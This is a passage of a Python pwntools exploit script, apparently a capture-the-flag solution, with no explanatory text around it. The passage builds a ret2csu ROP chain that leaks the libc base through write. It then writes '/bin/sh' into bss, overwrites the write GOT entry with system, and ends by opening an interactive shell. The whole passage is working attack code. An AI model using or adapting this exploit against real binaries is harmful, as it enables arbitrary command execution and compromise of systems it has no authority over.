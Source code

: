 ```python
payload+=p64(0) #r15

# call read(0,bss)addr,16)
payload+=gadget_2

# setting for main()
payload+=p64(0) 
payload+=p64(0) #rbx
payload+=p64(1) #rbp
payload+=p64(bss_addr+8) #r12
payload+=p64(0) #r13
payload+=p64(0)  #r14
payload+=p64(0) #r15

# call main()
payload+=gadget_2
payload+=p64(0)
payload+=p64(0) #rbx
payload+=p64(1) #rbp

pause()
p.send(payload)
libc_base=u64(p.recv(6).ljust(8,"\x00"))-libc.symbols['write']
log.info("libc_base::"+hex(libc_base))
system_base=p64(libc_base+libc.symbols['system'])
bin_sh="/bin/sh\x00"+p64(0x4005F6)
p.send(bin_sh)

#--------------finish libc_leak, insert /bin/sh and main_addr  in bss~ bss+8---------


# setting read(0,write_got_addr,8)
payload2="A"*0x48
payload2+=gadget_1
payload2+=p64(0) #rbx
payload2+=p64(1) #rbp
payload2+=p64(read_got) #r12
payload2+=p64(8) #r13
payload2+=p64(write_got)  #r14
payload2+=p64(0) #r15

# call read(0,write_got_addr,8)
payload2+=gadget_2

# setting system(bss_addr)
payload2+=p64(0) 
payload2+=p64(0) #rbx
payload2+=p64(1) #rbp
payload2+=p64(write_got) #r12
payload2+=p64(8) #r13
payload2+=p64(0)  #r14
payload2+=p64(bss_addr) #r15

# call system(bss_addr)

payload2+=gadget_2
pause()
p.send(payload2)
sleep(1)
pause()
p.sendline(system_base)

p.interactive()
```